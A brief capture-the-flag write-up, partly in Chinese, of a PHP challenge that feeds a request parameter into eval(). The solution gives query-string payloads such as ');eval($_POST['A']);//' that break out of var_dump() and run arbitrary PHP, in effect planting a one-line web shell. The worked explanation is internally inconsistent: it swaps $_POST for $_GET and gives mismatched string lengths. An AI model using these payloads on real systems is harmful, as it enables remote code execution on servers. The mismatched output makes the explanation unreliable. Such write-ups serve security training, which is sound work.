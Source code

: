 # Challenge 
```php 
<?php 
error_reporting(0);
show_source(__FILE__);

$a = @$_REQUEST['hello'];
eval("var_dump($a);"); 
```

# Solution
## payload1
```
?hello=);eval($_POST['A']);%2f%2f

或

?hello=);eval(phpinfo());//
```
var_dump($a);后的结果为
```
string(22) ");eval($_POST['A']);//"
```

即
```
eval("string(21) ");eval($_GET['A']);//"");
```

## payload2
```
?hello=);eval($_GET[c]&c=phpinfo();
```
var_dump()后的结果是
```
string(15) ");eval($_GET[c]"
```

即
```
eval("string(17) ");eval($_GET[c]" string(0) "" ");
```
# Refference
+ [XNUCA 赛前指导 default](http://218.76.35.74:20131/index2.php)
